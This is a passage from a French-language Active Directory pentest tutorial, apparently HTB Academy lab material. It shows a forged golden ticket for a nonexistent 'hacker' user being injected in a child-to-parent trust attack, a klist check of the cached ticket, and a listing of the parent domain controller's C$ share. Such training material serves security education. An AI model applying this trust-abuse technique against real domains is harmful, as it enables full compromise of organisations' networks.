 ```

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session

```

Nous pouvons confirmer que le ticket Kerberos de l'utilisateur pirate inexistant réside en mémoire.

#### Confirmer qu'un ticket Kerberos est en mémoire à l'aide de klist

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

```

À partir de là, il est possible d'accéder à toutes les ressources du domaine parent, et nous pourrions compromettre le domaine parent de plusieurs manières.

#### Liste de l'intégralité du lecteur C: du contrôleur de domaine

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free

```
